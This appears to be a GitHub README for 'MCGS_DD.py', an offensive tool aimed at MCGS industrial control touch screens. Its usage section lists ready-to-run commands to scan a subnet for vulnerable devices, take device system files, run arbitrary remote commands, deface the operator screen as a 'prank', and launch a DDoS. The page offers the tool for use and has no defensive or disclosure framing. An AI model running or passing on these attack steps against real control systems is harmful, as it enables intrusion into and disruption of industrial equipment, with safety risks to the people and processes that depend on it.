







  <div align="center">
 <p align="center">
 
 
  
 
 
  
</p>
  
  
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>
        Attack industrial network devices MCGS
    </th>
    
  </tr>
 </table>
</div>

# industrial control equipment

    

    


# usage method
  * View help information

      ```#python3 MCGS_DD.py -h```

    

# Scan for vulnerabilities in the internal network of industrial control devices (MCGS touch screen)

  ```#python3 MCGS_DD.py -scan 192.168.100.0/24```

    

# Attack industrial control devices and obtain device system files

```#python3 MCGS_DD.py -rh 192.168.100.3```

    
  
# Arbitrary command execution

```#python3 MCGS_DD.py -rh 192.168.100.3 -cmd ipconfig```
  
  

_PS:You can use the (- echo) parameter to print the results on the MCGS touch screen, which is a prank_

```#python3 MCGS_DD.py -rh 192.168.100.3 -cmd Martin_Hacking...........[X_X] -echo```
  
  

# DDOS attacks

```#python3 MCGS_DD.py -rh 192.168.100.3 -cmd Martin_Hacking...........[X_X] -echo -dd```
  
  